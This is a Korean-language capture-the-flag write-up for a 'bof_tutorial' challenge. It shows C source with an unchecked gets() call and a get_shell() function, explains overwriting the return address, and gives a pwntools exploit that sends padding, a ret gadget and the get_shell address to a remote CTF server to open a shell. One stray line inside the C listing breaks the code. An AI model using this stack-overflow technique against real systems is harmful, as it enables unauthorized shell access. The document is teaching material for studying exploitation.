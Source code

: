# bof_tutorial

> ### 소스코드를 분석하여 buffer overflow 방식으로 get_shell() 함수를 실행시켜 플래그를 얻어낼 수 있다. 


<hr>

# Solution 

- source code
```c
#include <stdio.h>
#include <stdlib.h>
void init( void )
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}
void get_shell( void )
{
	system( "/bin/sh" );
}
int main( void )
{
	char buf[16];
	init();
	gets( buf );
	printf( "Your input is %s\n", buf );
	bof_tutorial guide 2
	return 0;
}
```
### 코드 분석

- 위의 소스 코드를 보면 `get_shell` 함수를 실행시키면 플래그를 얻을 수 있을 것 같은데 main 함수에는 `get_shell`함수를 실행하는 코드가 없다.
- 그리고 main 함수에는 입력을 받는 길이를 확인하지 않는 취약점을 가진 함수인 `gets` 함수가 있다.
- 스택 구조의 가장 밑(높은 주소)에있는 RET 영역은 다음에 실행할 명령어의 주소를 담고있다.
- 이 부분을 `get_shell` 함수의 주소로 덮으면 될 것 같다.
- 이 프로그램을 실행할 때 스택의 구조는 아래와 같다.
![스크린샷 2024-01-19 200142](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/fa55ba9a-2619-41a5-b138-c64a14fc6c41)
- `gets()` 함수로 입력을 받을 때 쓰레기 값으로 (16+8) byte를 채우고 그 뒤에 `get_shell` 함수의 주소를 입력하자.
- `info func`  명령어를 사용하면 함수들의 정보를 확인 할 수 있다.
- 이를 통해 `get_shell` 함수의 주소가 `0x00000000004011b7` 임을 알 수 있다.
- 이제 위에서 알아낸 정보들을 바탕으로  exploit 코드를 작성하면 된다.
```python
# bof_exploit.py
from pwn import *
# process를 실행하기 위한 함수
# remote로 접속하려면 remote 함수를 사용해야함
r = remote( "ctf.keeper.or.kr", 1010 )
payload = b"A" * 24 # buf( 16 bytes ) + SFP( 8 bytes )
payload += p64( 0x40101a ) # system 함수 내부 구현 때문에 ret gad
payload += p64( 0x4011b7 ) # get_shell
# payload를 입력하기 위한 함수. 
# 끝에 '\n'까지 붙여주는 기능을 갖고 있음.
r.sendline( payload )
# shell을 획득하고 나서 직접적인 상호작용을 위한 함수
r.interactive()
```

### 코드 실행 결과
![스크린샷 2024-01-19 190946](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/5c224b8e-46dc-434d-91c7-d2421a999990)

